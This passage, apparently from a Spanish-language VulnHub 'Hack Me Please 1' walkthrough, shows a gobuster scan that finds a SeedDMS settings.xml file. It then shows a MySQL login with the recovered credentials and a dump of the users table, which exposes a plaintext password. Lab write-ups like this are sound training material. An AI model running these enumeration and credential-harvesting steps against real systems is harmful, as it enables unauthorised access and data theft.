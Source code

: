 Interesante el directorio `conf`{: .filepath}. Volvemos a lanzar gobuster para encontrar archivos dentro.

```bash
❯ gobuster dir -u http://10.11.12.62/seeddms51x/conf/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e -b 402,403,404 -x xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.11.12.62/seeddms51x/conf/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   402,403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              xml
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.11.12.62/seeddms51x/conf/settings.xml         (Status: 200) [Size: 12377]
```

Analizamos el código del archivo `settings.xml` y obtenemos los datos de acceso al motor sql.

![sqldata](/assets/img/commons/vulnhub/hack_me_please1/sqldata.png){: .center-image }

Dentro de la base, obtenemos tanto información para ingresar al panel de administración como del usuario `saket`.

```bash
❯ mysql -u seeddms --password=seeddms -h 10.11.12.62
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 293
Server version: 8.0.25-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| seeddms            |
| sys                |
+--------------------+
5 rows in set (0,003 sec)

MySQL [seeddms]> select * from users;
+-------------+---------------------+--------------------+-----------------+
| Employee_id | Employee_first_name | Employee_last_name | Employee_passwd |
+-------------+---------------------+--------------------+-----------------+
|           1 | saket               | saurav             | Saket@#$1337    |
```
